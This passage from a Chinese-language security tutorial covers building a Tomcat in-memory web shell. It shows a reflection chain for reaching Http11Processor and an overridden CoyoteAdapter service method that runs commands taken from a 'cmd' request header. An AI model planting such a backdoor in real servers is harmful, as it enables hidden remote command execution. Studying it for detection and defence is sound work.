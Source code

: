 将该段代码封装为一个方法

之后直接放到 controller 方法中寻找

```plain
@RequestMapping("/hello")
    public String hello()  {
        test1.testSearchRequest();
        return "hello world!";
    }
```

可以找到以下符合要求的路径

```plain
TargetObject = {org.apache.tomcat.util.threads.TaskThread} 
  ---> group = {java.lang.ThreadGroup} 
   ---> threads = {class [Ljava.lang.Thread;} 
    ---> [15] = {java.lang.Thread} 
     ---> target = {org.apache.tomcat.util.net.NioEndpoint$Poller} 
      ---> this$0 = {org.apache.tomcat.util.net.NioEndpoint} 
       ---> connections = {java.util.Map<U, org.apache.tomcat.util.net.SocketWrapperBase<S>>} 
        ---> [java.nio.channels.SocketChannel[connected local=/127.0.0.1:8081 remote=/127.0.0.1:53770]] = {org.apache.tomcat.util.net.NioEndpoint$NioSocketWrapper} 
         ---> currentProcessor = {org.apache.coyote.http11.Http11Processor}
```

由于该工具原理就是从内存中，搜索某个变量的属性，是否有符合要求的

基于以下考虑，限制了深度

-   第一个是这样反射路径过长，就算是搜索到了，最终构造的 payload 数据会很大
-   第二个是挖掘时间会很长，因为 JVM 虚拟机内存中的对象结构其实是非常的复杂的，一个对象的属性往往嵌套着另一个对象，另一个对象的属性继续嵌套其他对象…

深度优先可能会错过比较短的反射链，所以建议深度优先和广度优先结合着来

基于前面源码调试，可以发现，连接器里面的东西，很多都能从 NioEndpoint 中获取，所以其实实在搜不到，也可以分两步进行

第一步是搜 NioEndpoint 对象

第二步是从 NioEndpoint 对象中搜索需要的对象

不一定要从全局变量中找，只要是存储有我们需要信息的对象，并且我们能够获取到就能满足要求

### 构造 Adapter 内存马

由于请求调用栈上调用的是 CoyoteAdapter 的 service 方法，所以我们需要重写其 service 方法。

但它 service 方法代码太多了，直接 cv 会导致内存马太大，不过可以直接用 super.service(req, res);进行调用父类的

最终构造如下

```plain
@Override
    public void service(org.apache.coyote.Request req, org.apache.coyote.Response res) throws Exception {
        System.out.println("success !");
        String p = req.getHeader("cmd");
        if(null!=p){
            exec(p, res);
        }else {
            //调用父类 service 方法
            super.service(req, res);
        }

    }
```
